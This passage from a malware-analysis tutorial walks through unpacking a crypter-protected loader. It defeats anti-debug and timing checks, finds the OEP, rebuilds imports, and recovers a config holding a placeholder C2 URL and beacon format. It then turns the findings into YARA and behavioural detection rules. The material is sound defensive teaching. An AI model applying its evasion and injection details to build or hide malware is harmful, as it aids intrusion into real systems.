VirtualAlloc
VirtualProtect
IsDebuggerPresent
GetTickCount
```

Reading the triage: entropy 7.90 with the mass in `.data` means an encrypted (not merely compressed) payload — a crypter. Six imports, of which `IsDebuggerPresent` and `GetTickCount` are anti-analysis, not payload behaviour. Entry point in `.text` (the stub). `capa` confirms and warns:

```
C:\analysis> capa loader2.bin
WARNING: This sample appears to be packed.
| DEFENSE EVASION | Obfuscated Files or Information::Software Packing |
| DEFENSE EVASION | Virtualization/Sandbox Evasion::Debugger Detection [T1622] |
```

`unipacker` is worth ninety seconds and, as expected for a custom crypter with anti-debug, does not fully resolve it:

```
C:\analysis> unipacker loader2.bin
[+] No known packer signature
[!] Emulation diverged at 0x401180 (IsDebuggerPresent branch)
[!] Could not locate OEP automatically
```

Manual it is.

### 11.2 Neutralise the anti-analysis layer

Load `loader2.bin` in x64dbg (32-bit `x32dbg`). **Before running**, enable ScyllaHide with the `x64dbg` profile (covers `IsDebuggerPresent`, PEB flags, timing). Confirm TLS-callback breaking is on. Break on the two anti-analysis APIs to see the checks:

```
bp IsDebuggerPresent
bp GetTickCount
F9
```

First hit — `IsDebuggerPresent`. The call stack return address is in the stub. Step out (Ctrl+F9) and observe the branch:

```asm
00401180  FF15 xx xx 40 00   call dword ptr [<&IsDebuggerPresent>]
00401186  85C0               test eax, eax
00401188  75 3A              jnz 4011C4          ; jnz -> exit path
0040118A  ...                                    ; real path continues here
```

With ScyllaHide active, `IsDebuggerPresent` already returns 0, so `eax` is 0, `test` sets ZF, and `jnz` is not taken — the sample proceeds down the real path without intervention. Confirm by stepping: execution falls through to `0x40118A`. (Had ScyllaHide not been active, the fix is a one-click **Patch** of `jnz` to `nop nop`, or setting `eax` to 0 in the register pane before the `test`.)

The `GetTickCount` pair is a timing check:

```asm
004011A0  FF15 .. GetTickCount   ; t1
004011A6  8BF0               mov esi, eax
004011A8  ...decompression setup...
004011E0  FF15 .. GetTickCount   ; t2
004011E6  2BC6               sub eax, esi        ; delta = t2 - t1
004011E8  3D 88130000        cmp eax, 5000       ; > 5000 ms?  (5 sec)
004011ED  77 25              ja 401214           ; too slow -> assume debugger -> exit
```

Running full-speed (not single-stepping) keeps the delta small, so the `ja` is not taken. The lesson from Part 10.1 in practice: **do not single-step through timing windows** — set a breakpoint past them and F9.

### 11.3 Find the OEP

The stub allocates and decrypts. Apply Technique 2 (Part 4.2) — break on the allocator:

```
bp VirtualAlloc
F9
```

Hit. Arguments on the stack (x86 stdcall, read the stack pane):

```
VirtualAlloc(lpAddress=0, dwSize=0x1B000, flAllocationType=0x3000 MEM_COMMIT|RESERVE, flProtect=0x40 PAGE_EXECUTE_READWRITE)
```

`flProtect = 0x40` (RWX) on a 0x1B000 region is the payload's new home. Execute to return (Ctrl+F9); `EAX = 0x02F40000`. Set a memory execute breakpoint over the whole region and run:

```
bpm 0x02F40000, 0, x
F9
```

Fires at `0x02F40000` — the first instruction the CPU executes in the freshly decrypted region. Inspect it:

```asm
02F40000  55                push ebp
02F40001  8BEC              mov ebp, esp
02F40003  83EC 40           sub esp, 0x40
02F40006  53                push ebx
02F40007  56                push esi
02F40008  57                push edi
02F40009  E8 A2 01 00 00    call 02F401B0
```

Prologue at the start of the allocated region: this is the OEP of the unpacked payload. Verify per Part 4.10 — press Ctrl+A to analyse; functions reconstruct cleanly. Right-click → search strings in the region:

```
02F40A20  "%s\\%s.exe"
02F40A34  (encrypted-looking bytes)     <- config blob, still encrypted
```

Readable format strings confirm genuine payload; the encrypted blob near them is the configuration we will recover in 11.6.

### 11.4 Dump and rebuild the IAT

Payload is self-injected into private RWX memory (not a module), so both Scylla and PE-sieve apply. Scylla path first:

Open **Scylla** (Plugins → Scylla). The target region is private memory, so:

1. **OEP:** `02F40000`.
2. **IAT Autosearch.** Scylla reports: `IAT found: VA 0x02F5A000, size 0x120 (72 entries), 8 invalid`.
3. **Get Imports.** Most resolve; 8 are red — pointing into stub memory, i.e. **IAT redirection** (Part 5.2).
4. Enable **Advanced IAT search → Fix redirection**, re-run. Now `72 valid, 0 invalid` — the redirect stubs (`push <api>; ret`) were followed to real exports.
5. **Dump** → `loader2_dump.bin` (dumps the region with alignment fixed).
6. **Fix Dump** → select `loader2_dump.bin` → produces `loader2_dump_SCY.bin`.

Cross-check with PE-sieve against the live PID for a second opinion and to catch anything Scylla's IAT search missed:

```
C:\analysis> pe-sieve64.exe /pid 5120 /imp 3 /data 3 /dir C:\analysis\ps
[!] Implanted PE found at 0x02F40000 (size: 0x1B000)
Dumped modules: 1 to: .\ps\process_5120
[+] Data region dumped: 2f5c000.data (0x400 bytes)   <- decrypted config landed here
```

`/data 3` bonus: PE-sieve also dumped a small data region — potentially the decrypted config, which we verify next.

### 11.5 Re-triage the dump

Per the peel-and-re-triage rule:

```
C:\analysis> diec loader2_dump_SCY.bin
PE32
    Compiler: Microsoft Visual C/C++(19.2)[-]
Entropy: 6.331 (not packed)

C:\analysis> python3 -c "import pefile;pe=pefile.PE('loader2_dump_SCY.bin');print('DLLs',len(pe.DIRECTORY_ENTRY_IMPORT))"
DLLs 5

C:\analysis> floss -n 6 loader2_dump_SCY.bin
FLOSS STATIC STRINGS: 74
FLOSS STACK STRINGS: 9
  wininet.dll
  advapi32.dll
  SOFTWARE\Microsoft\Windows\CurrentVersion\Run
  %s\%s.exe
FLOSS DECODED STRINGS: 3
  0x00402260: https://cdn.example-delivery.net/gate.php
  0x00402260: Mozilla/5.0 (Windows NT 10.0; Win64; x64) Gecko/20100101
  0x004022e4: id=%s&v=1.2&os=%s
```

Entropy dropped to 6.33, a real compiler string reappeared, 5 DLLs of imports, and FLOSS pulled the C2 URL, user-agent, and beacon format straight out by emulating the decoder at `0x402260`. The dump is clean payload.

### 11.6 Recover the configuration by letting the sample decrypt it

FLOSS already gave the C2, but confirm it live and capture the full config structure. The payload's config decryptor is at `0x402260` (FLOSS told us). In x64dbg, breakpoint just after it, on the instruction that receives the plaintext pointer (from the Ghidra view, `0x0040229A`):

```
bp 0x0040229A
F9
```

Hit. The plaintext buffer pointer is in `EAX`. Follow in Dump, switch to UTF-8/ASCII display:

```
Dump 1  (ASCII):
02F60300  68 74 74 70 73 3A 2F 2F 63 64 6E 2E 65 78 61 6D   https://cdn.exam
02F60310  70 6C 65 2D 64 65 6C 69 76 65 72 79 2E 6E 65 74   ple-delivery.net
02F60320  2F 67 61 74 65 2E 70 68 70 00 4D 6F 7A 69 6C 6C   /gate.php.Mozill
02F60330  61 2F 35 2E 30 00 47 6C 6F 62 61 6C 5C 7B 38 66   a/5.0.Global\{8f
02F60340  37 61 31 63 32 32 2D ...                          7a1c22-...
```

Config recovered: C2 `https://cdn.example-delivery.net/gate.php`, user-agent `Mozilla/5.0`, mutex `Global\{8f7a1c22-...}`. Save it for the report:

```
savedata C:\analysis\config.bin, 0x02F60300, 0x80
```

### 11.7 Resolve the hashed imports for a readable decompilation

The payload uses ROR-13 API hashing (a `ror edx, 0xD` loop is visible in the resolver at `0x401F80`). Extract the hash constants from the dump and resolve them:

```
C:\analysis> python3 -c "
import pefile
pe=pefile.PE('loader2_dump_SCY.bin')
# hashes are stored as a null-terminated dword array at RVA 0x2400
data=pe.get_data(0x2400,0x40)
import struct
print([hex(x) for x in struct.unpack('<16I', data) if x])
"
['0x91afca54', '0xe553a458', '0x726774c', '0x7c0dfcaa', '0x91bd55b8', '0xcb72f7c4']

C:\analysis> python3 apihash.py 0x91afca54 0xe553a458 0x726774c 0x7c0dfcaa 0x91bd55b8 0xcb72f7c4
0x91afca54: ror13:kernel32.dll!VirtualAlloc
0xe553a458: ror13:kernel32.dll!VirtualProtect
0x726774c:  ror13:kernel32.dll!LoadLibraryA
0x7c0dfcaa: ror13:wininet.dll!InternetOpenW
0x91bd55b8: ror13:wininet.dll!InternetOpenUrlW
0xcb72f7c4: ror13:advapi32.dll!RegSetValueExW
```

Feed those into the Ghidra rename script (Part 7.5) and the decompiler's opaque indirect calls become `InternetOpenUrlW(...)`, `RegSetValueExW(...)` — the payload's behaviour (persist via Run key, beacon to C2 over WinINet) is now readable directly.

### 11.8 Produce durable detection

Two artefacts nothing on the original disk could have given: the unpacked payload's code, and its config. Turn them into a YARA rule that survives re-crypting, because it keys on the *payload*, not the wrapper:

```yara
rule loader2_unpacked_payload {
    meta:
        description = "Unpacked commodity loader payload — recovered from memory"
        note        = "keys on payload code + config, not the outer crypter"
    strings:
        $ua    = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) Gecko/20100101" ascii
        $uri   = "/gate.php" ascii
        $beacon= "id=%s&v=1.2&os=%s" ascii
        $ror13 = { C1 CA 0D 03 D0 }        // ror edx,0Dh ; add edx,eax  (API hasher)
        $mutex = "Global\\{8f7a1c22" ascii
    condition:
        uint16(0) == 0x5A4D and 3 of them
}
```

The `$ror13` byte pattern is especially valuable: it matches the hashing *routine*, which the author reuses across builds even when every string changes. That is the difference between a rule that catches one sample and a rule that catches a family.

### 11.9 Lab recap

The chain was: guarded custom crypter → RWX-decrypted compressed payload → ROR-13-hashed imports → stack-string + encrypted config. In order, the techniques that peeled it were ScyllaHide (anti-debug), running full-speed past the timing check, `VirtualAlloc` + `bpm x` to catch the OEP, Scylla with redirection-fixing to rebuild the IAT, PE-sieve as cross-check and config capture, FLOSS for hidden strings, a breakpoint-after-decrypt to recover the config live, `apihash.py` for the imports, and finally a payload-keyed YARA rule. None of the final artefacts existed in the file that arrived; every one of them came from execution under control.

## Part 12: Detection & Defense Angle

Everything above is analysis. This section flips to the defender who must detect packed and evasive malware at scale, without an analyst per sample.

### 12.1 Static detection of packing

- **Entropy scanning** across a fleet: flag executables whose whole-file or per-section entropy exceeds ~7.2, weighted by prevalence (a packed binary seen on one host is more suspicious than a common packed installer seen on thousands). Cheap and high-yield as a triage filter, never as a sole verdict — plenty of benign software is packed.
- **Section-anomaly rules:** RWX sections, `SizeOfRawData == 0` with non-zero virtual size, entry point outside the first code section, and a tiny import table are all YARA-able structural features. A generic "likely packed" rule combining several of these is a strong prioritisation signal.
- **Packer signatures** (DIE's database, YARA packer rulesets) identify *known* packers, which both prioritises and hints at the unpacking method.

```yara
rule suspicious_packed_pe {
    meta: description = "Structural indicators of a packed PE — triage, not verdict"
    condition:
        uint16(0) == 0x5A4D and
        pe.number_of_sections >= 1 and
        for any s in pe.sections : (
            (s.characteristics & 0x20000000) and       // executable
            (s.characteristics & 0x80000000) and       // writable  -> RWX
            math.entropy(s.raw_data_offset, s.raw_data_size) > 7.2
        ) and
        pe.number_of_imports <= 10
}
```

### 12.2 Behavioural and memory detection — where packing loses

Packing defeats static signatures but is helpless against runtime observation, because the payload must eventually exist in memory to run. The highest-fidelity detections all live at that moment:

| Signal | Detects | Source |
| --- | --- | --- |
| `VirtualAlloc`/`VirtualProtect` making a region RWX or W→X | Unpacking into memory, shellcode staging | ETW, EDR API hooks |
| Executable private memory with no backing file | Self-injected / reflectively loaded payloads | Memory scan (PE-sieve engine, EDR) |
| In-memory image ≠ on-disk image for the same module | Process hollowing | Memory scan comparing module to file |
| Thread start address in unbacked memory | Injected/reflective payload execution | ETW thread-start, EDR |
| `CreateProcess(CREATE_SUSPENDED)` + `WriteProcessMemory` + `SetThreadContext` + `ResumeThread` on the child | Hollowing sequence | API-sequence correlation |
| `WriteProcessMemory` into another process followed by `CreateRemoteThread`/`QueueUserApcThread` | Classic remote injection | API-sequence correlation |
| PowerShell 4104 script blocks containing `IEX`/`FromBase64String`/`GzipStream` | Script-layer deobfuscation | Script Block Logging |
| AMSI buffer containing decoded malicious content | Post-deobfuscation script/.NET content | AMSI |

The strategic point for a defender: **do not try to win at the static layer.** Let packing happen, and detect at the unavoidable choke points — memory that becomes executable, images that do not match their files, threads that start in nowhere, and scripts observed after they deobfuscate. A memory scan with the PE-sieve/Hollows Hunter engine on a schedule or on EDR trigger catches injected payloads regardless of how the wrapper was built.

### 12.3 Detecting the anti-analysis behaviour itself

Evasion is itself detectable, because the checks are unusual for benign software:

- Repeated `Sleep`/`NtDelayExecution` with very large arguments early in execution (stalling).
- `cpuid` with leaf `0x40000000`, `GetSystemInfo` immediately followed by an early exit, `IsDebuggerPresent`/`CheckRemoteDebuggerPresent` clusters — anti-VM/anti-debug fingerprints.
- Reads of VM registry keys and driver paths.
- `GetLastInputInfo`/`GetCursorPos` polling with no UI (interaction gating).

EDR that models API *sequences* rather than individual calls catches these patterns; a lone `IsDebuggerPresent` is noise, but `IsDebuggerPresent` → timing check → `cpuid` hypervisor check → conditional early exit is a signature of evasive malware.

### 12.4 Unpacking as a detection pipeline

Mature environments automate the analyst's first hour: detonate every suspicious executable in an instrumented sandbox with sleep-skipping, hooks on the memory and injection APIs, `hollows_hunter /loop` capturing every materialised payload, and automatic YARA scanning of the *dumps* against payload-family rules. This inverts the packer's advantage — the wrapper is discarded and the durable payload signature does the work, exactly as the Part 11 lab's final rule was designed to.

## Part 13: Common Pitfalls and How to Avoid Them

| Pitfall | Consequence | Fix |
| --- | --- | --- |
| Trusting the DIE packer name | Waste time on `upx -d` for a fake-UPX crypter | Treat the name as a hypothesis; verify with entropy + sections + imports |
| Dumping before imports are resolved | Unreadable dump, every call an unnamed pointer | Confirm the IAT is populated (Part 4.7/5.2) before dumping |
| Dumping after `Fix Dump` then re-dumping | Import fix discarded | Order is Dump → Fix Dump, always |
| Single-stepping through timing checks | Trips the anti-debug delta, sample exits | Run full-speed to the region; only step inside it |
| Enabling ScyllaHide after the entry point ran | Anti-debug already fired | Enable it before the first instruction |
| Concluding "the dump failed" when it is another layer | Give up on a perfect dump | Re-triage every dump; entropy > 7.2 means peel again |
| Treating an obfuscator like a packer | Endless hunting for a non-existent OEP | No stub = no unpack; simplify statically or instrument |
| Using an emulator against anti-emulation | Divergence, wrong results | Switch to real execution in a hardened VM |
| Software breakpoints on self-checksumming code | Sample detects the `0xCC` and bails | Use hardware breakpoints |
| Running FLOSS on an environment-keyed decryptor | Empty results, wrong conclusion | Let the sample decrypt live in the debugger |
| Analysing a hollowing sample in the parent only | Never see the payload run | Attach to / dump the child; use Hollows Hunter |
| Reflective payload invisible to module tools | "There is no injected code" | Scan memory structurally (PE-sieve), not the module list |
| Leaving a live `IEX`/`eval` while deobfuscating a script | Accidental execution on the analysis host | Neutralise every sink; work only in the VM; prefer 4104 logs |

## Part 14: Final Revision / Summary

The mental model to carry out of this chapter:

1. **Classify before you act.** Packer, crypter, protector, obfuscator, and .NET are five different problems with five different tools. Entropy, section anomalies, and import count classify them in five minutes.
2. **Stub plus payload.** Every packer/crypter is a small on-disk stub reconstructing a payload in memory. Static analysis sees the stub; the payload materialises only at runtime. The dump window is between the transfer-of-control and the payload's first destructive act.
3. **Finding the OEP has eight standard techniques.** ESP trick, allocation-API breakpoints, section-hop memory breakpoints, run trace, tail-jump recognition, payload-API breakpoints, IAT-read breakpoints, and run-then-scan. Choose by the stub's shape; verify by prologue, address, analysis, and strings.
4. **A dump is broken until fixed.** Alignment and — decisively — the import table. Scylla rebuilds the IAT (following redirection stubs); PE-sieve/Hollows Hunter do the same and also find injected/hollowed/reflective payloads that Scylla, tied to one process, cannot.
5. **Peel one layer, then re-triage.** An unreadable dump with entropy > 7.2 is usually a success wrapping another layer, not a failure.
6. **Hidden strings and imports have named tools.** FLOSS emulates decoders to recover strings; API hashing is beaten with a precomputed rainbow table (or HashDB); PEB walking (`fs:[0x30]`/`gs:[0x60]`) marks manual API resolution.
7. **Obfuscators are not unpacked, they are simplified.** Junk, opaque predicates, control-flow flattening, MBA, and virtualisation each have a static counter — but instrumenting behaviour (break after the operation, read the result) beats reading the code, and for virtualisation it is often the only realistic route.
8. **.NET is easier.** dnSpyEx decompiles to C# and debugs it; break on `Assembly.Load` to save the payload; de4dot automates the rest.
9. **Anti-analysis has four families,** each with a defeat catalogue. ScyllaHide neutralises most anti-debug; VM hardening plus check-patching handles anti-VM; running full-speed beats timing and stalling; real execution beats anti-emulation; following the CPU beats anti-disassembly. The unifying principle: the CPU executes the real code, so follow the CPU.
10. **Defenders skip the static fight** and detect at the memory/behaviour choke points packing cannot avoid — RWX transitions, image/file mismatch, unbacked-memory threads, and post-deobfuscation script logs — turning recovered payload signatures back on the whole family.

## Part 15: Cheat Sheet / Quick Reference

**Triage**

```bash
python3 entropy.py sample.exe          # whole-file + sliding-window entropy
diec -d -e sample.exe                  # packer id + per-section entropy
python3 sections.py sample.exe         # RWX / rawsize-0 / EP-section anomalies
capa sample.exe                        # capabilities + packing warning
```

**Entropy reading:** <6.5 normal code · 7.2–7.8 compressed · 7.8–8.0 encrypted.

**Automated unpacking**

```bash
upx -d -f sample.exe -o out.exe        # known packers
unipacker sample.exe                   # Unicorn emulation, classic stubs
speakeasy -t sample.exe -d dumps/      # emulated behavioural trace + dumps
```

**Manual OEP (x64dbg command bar)**

```
F8                          ; step over pushad
bph <ESP>, r, 4             ; ESP trick — HW read bp
bp VirtualAlloc / bp VirtualProtect     ; allocation-API method
bpm <region>, 0, x          ; execute bp on decrypted region
bp CreateFileW / RegSetValueExW / InternetOpenW   ; payload-API method
```

OEP verify: prologue (`push ebp;mov ebp,esp` / `sub rsp,N`) · low RVA in code section · Ctrl+A analyses clean · strings appear.

**Dump + IAT**

```
Scylla: set OEP -> IAT Autosearch -> Get Imports -> (Advanced: fix redirection) -> Dump -> Fix Dump
pe-sieve64.exe /pid N /imp 3 /shellc /data 3 /threads /dir out
hollows_hunter64.exe /loop /imp 3 /dir out
python3 fixdump.py dump.bin <oep> <imagebase>
```

**Hidden strings / imports**

```bash
floss --only stack tight decoded -n 6 payload.exe
python3 apihash.py 0x91AFCA54 ...      # resolve API hashes (ror13/fnv1a)
# Ghidra: HashDB plugin; rename_api_globals.py to annotate
```

Manual-resolution tells: `fs:[0x30]` (x86 PEB) · `gs:[0x60]` (x64 PEB) · `ror edx,0xD` (ROR-13 hasher).

**.NET**

```bash
dnSpyEx: break on Assembly.Load -> save byte[] local = payload
de4dot.exe sample.exe                  # auto-deobfuscate
de4dot.exe -p cr --strtyp delegate --strtok 0x06000123 sample.exe
```

**Scripts:** replace `IEX`/`eval`/`exec` with output; base64 `-EncodedCommand` is UTF-16LE; prefer PowerShell 4104 Script Block Logging.

**Anti-analysis quick defeats**

```
Anti-debug   -> ScyllaHide (enable BEFORE running); HW breakpoints; patch the jz/jnz
Anti-VM      -> harden the VM; bp GetSystemInfo/cpuid/RegOpenKeyExW, patch the branch
Timing/stall -> run full-speed; hook Sleep/NtDelayExecution to return fast
Anti-emul    -> switch to real hardware execution
Anti-disasm  -> follow the CPU (step); Clear+Disassemble at the true target in Ghidra
```

## Part 16: Practice Labs & Resources

Everything here trains the exact skills of this chapter; work them in the isolated VM.

- **TryHackMe — "Dissecting PE Headers", "MAL: Malware Introductory", "Advanced Static Analysis":** section tables, entropy, packer identification, and the static tells from Parts 1–2.
- **HackTheBox — Reversing challenges tagged "unpacking"/"packed"** (e.g. *Find The Easy Pass* as a warm-up, then packed-binary challenges): manual OEP-finding and dumping practice with immediate feedback.
- **crackmes.one** — filter by "unpacking", "anti-debug", and "VM" tags. The single best volume source for OEP-finding and anti-debug-defeating reps; start at difficulty 2–3 and climb.
- **MalwareTech's beginner malware-analysis challenges** (the *Shellcode* and *Strings* sets): API hashing, PEB walking, and stack-string recovery on realistic samples.
- **FLARE-On Challenge (archived past years, free):** the authoritative deobfuscation and anti-analysis gauntlet — control-flow flattening, custom VMs, .NET obfuscation, and API hashing all appear. The official write-ups are a masterclass; solve, then read them.
- **Practical Malware Analysis labs (Chapters 15–18: "Anti-Disassembly", "Anti-Debugging", "Anti-VM", "Packers and Unpacking"):** the canonical exercise set for this entire chapter, with a full answer key.
- **OALabs YouTube unpacking walkthroughs and the HashDB plugin/database:** watch real manual unpacks of current families; use HashDB against your own hashed-import samples.
- **MalwareBazaar (abuse.ch):** a live feed of real packed samples for when you are ready to leave the training wheels — only in a properly isolated, snapshot-reverted VM, network controlled.
- **VX-Underground collections:** curated real-world samples including protector-hardened families, for advanced practice once the fundamentals above are solid.
- **Tooling to install and keep sharp:** Detect It Easy, x64dbg + ScyllaHide + Scylla, PE-sieve + Hollows Hunter, FLOSS, capa, unipacker, Speakeasy/Qiling, dnSpyEx, de4dot, and Ghidra with the HashDB plugin.

This chapter closes the reverse-engineering toolchain: static analysis, dynamic analysis, disassembly, decompilation, debugging, and now the removal of every layer standing between you and the payload. The next chapter puts all of it together end to end — taking a genuine unknown sample from first receipt through triage, unpacking, behavioural and code analysis, to a complete written analyst report.
